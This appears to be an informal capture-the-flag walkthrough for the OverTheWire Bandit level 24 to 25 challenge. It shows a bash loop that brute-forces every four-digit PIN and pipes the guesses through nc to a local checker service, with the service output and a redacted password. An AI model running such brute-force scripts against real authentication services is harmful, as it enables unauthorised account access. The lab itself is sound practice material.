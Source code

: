 > Wrong! Please enter the correct pincode. Try again.

--- W/O ---

> Timeout. Exiting.

[ mkdir /tmp/knocknocco , cd /tmp/knocknocco ]

As OPPOSED too mktemp -d ( Which would Spawn a Random ... *Id Est* /tmp/tmp.OgybeKestD )

[ nano pinbrute.sh ]

> GNU nano 6.2                          pinbrute.sh                                      
>
> #!/bin/bash
>
> for i in {0000..9999}
> do
>        echo "DC33...R..E..D..A..C..T..E..D... $i"
> done

[ ctrl + x , y ]

Exit , Save Changes

[ chmod +x ./pinbrute ]

Make eXecutable

[ /pinbrute.sh | nc localhost 30002 ]

Run Script AND Pipe too ... nc localhost 30002

> I am the pincode checker for user bandit25.
> Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.

...

> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Correct!
> The password of user bandit25 is DC33...R..E..D..A..C..T..E..D...

[ ./pinbrute.sh | nc localhost 30002 > flag.txt ]

The Deamon is Instructed to Close Connection AFTER the Correct Pin is Entered ...

( > flag.txt Pushes the OUTPUT too a File Named ... flag.txt )

... c o n f i r m a t i o n  d r i l l s ...

[ cat flag.txt | head ]

> I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,    > separated by a space.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
> Wrong! Please enter the correct pincode. Try again.
